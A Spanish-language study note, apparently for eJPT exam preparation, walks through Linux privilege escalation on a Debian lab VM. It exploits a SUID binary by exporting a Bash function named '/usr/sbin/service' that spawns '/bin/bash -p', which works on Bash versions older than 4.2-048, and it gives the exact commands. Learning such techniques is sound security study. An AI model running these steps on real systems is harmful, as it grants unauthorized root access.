 - El ejecutable /usr/local/bin/suid-env2 es idéntico a /usr/local/bin/suid-env excepto que utiliza la ruta absoluta del ejecutable del servicio (/usr/sbin/service) para iniciar el servidor web apache2.

- Verifique esto con cadenas:

```
 strings /usr/local/bin/suid-env2
```

- En las versiones de Bash <4.2-048, es posible definir funciones de shell con nombres que se asemejen a las rutas de archivo y luego exportar esas funciones para que se utilicen en lugar de cualquier ejecutable real en esa ruta de archivo.

- Verifique que la versión de Bash instalada en la máquina virtual Debian sea inferior a 4.2-048:

```
/bin/bash --version
```

- Cree una función Bash con el nombre "/usr/sbin/service" que ejecute un nuevo shell Bash (usando -p para conservar los permisos) y exporte la función:

```
function /usr/sbin/service { /bin/bash -p; }  
export -f /usr/sbin/service
```

- Ejecute el ejecutable suid-env2 para obtener un shell raíz:

```
/usr/local/bin/suid-env2
```

enlace:
[[Preparacion-Ejpt]]
[[SUID - SGID Executables  Known - Exploits]]
[[SUID - SGID Executables - Environment Variables]]
[[SUID - SGID Executables - Shared Object Injection]]
[[SUID - SGID Executables - Abusing Shell Features (2)]]